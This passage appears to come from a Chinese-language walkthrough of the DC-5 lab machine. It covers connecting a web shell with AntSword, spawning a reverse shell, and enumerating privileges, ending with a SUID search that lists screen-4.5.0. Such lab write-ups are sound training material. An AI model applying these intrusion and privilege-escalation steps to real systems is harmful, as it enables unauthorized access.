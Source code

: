     使用蚁🗡连接（密码是`b`，取决以你的`post`参数），然后在蚁🗡里面启动终端然后反弹shell
    
    ![image.png](image%2033.png)
    

## 提权

1. 查看权限
    
    ```python
    (www-data:/var/www) $ whoami
    www-data
    (www-data:/var/www) $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    (www-data:/var/www) $ uname -a
    Linux dc-5 3.16.0-4-amd64 #1 SMP Debian 3.16.51-2 (2017-12-03) x86_64 GNU/Linux
    ```
    
2. 寻找敏感文件
    
    ```python
    (www-data:/var/www) $ find / -perm -u=s -type f 2>/dev/null
    /bin/su
    /bin/mount
    /bin/umount
    /bin/screen-4.5.0
    /usr/bin/gpasswd
    /usr/bin/procmail
    /usr/bin/at
    /usr/bin/passwd
    /usr/bin/chfn
    /usr/bin/newgrp
    /usr/bin/chsh
    /usr/lib/openssh/ssh-keysign
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/eject/dmcrypt-get-device
    /usr/sbin/exim4
    /sbin/mount.nfs
    ```
    